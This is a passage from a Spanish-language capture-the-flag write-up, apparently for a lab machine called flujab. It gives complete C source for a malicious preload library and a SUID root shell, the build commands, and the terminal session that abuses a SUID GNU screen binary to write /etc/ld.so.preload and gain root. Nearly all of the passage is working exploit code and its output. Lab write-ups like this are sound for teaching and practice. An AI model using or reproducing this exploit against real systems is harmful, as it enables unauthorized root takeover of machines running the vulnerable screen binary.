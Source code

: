 Como la máquina no tiene ```gcc```, lo compilo en local para subirlo

Archivo ```libhax.c```:

```null
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

Archivo ```rootshell.c```:

```null
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

```null
gcc -fPIC -shared -ldl -o libhax.so libhax.c
```

```null
gcc -o rootshell rootshell.c
```

Al ejecutarlo, me sale una advertiencia debido a una falta de permisos

```null
sysadm@flujab:/etc$ screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
Directory '/run/screen' must have mode 755.
```

Sin embargo, hay dos binarios ```screen```

```null
sysadm@flujab:/$ find \-perm \-4000 2>/dev/null | grep screen
./usr/local/share/screen/screen
./usr/bin/screen
```

Para el que se encuentra en ```/usr/local```, no hay ningún problema

```null
sysadm@flujab:/tmp$ cd /etc
sysadm@flujab:/etc$ umask 000
sysadm@flujab:/etc$ /usr/local/share/screen/screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
sysadm@flujab:/etc$ /usr/local/share/screen/screen -ls
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-sysadm.
```

Ahora el propietario es ```root``` y como es SUID puedo ganar acceso como este usuario

```null
sysadm@flujab:/tmp$ ls -la rootshell 
-rwsr-xr-x 1 root root 16168 Feb 27 16:53 rootshell
```

Puedo ver las dos flags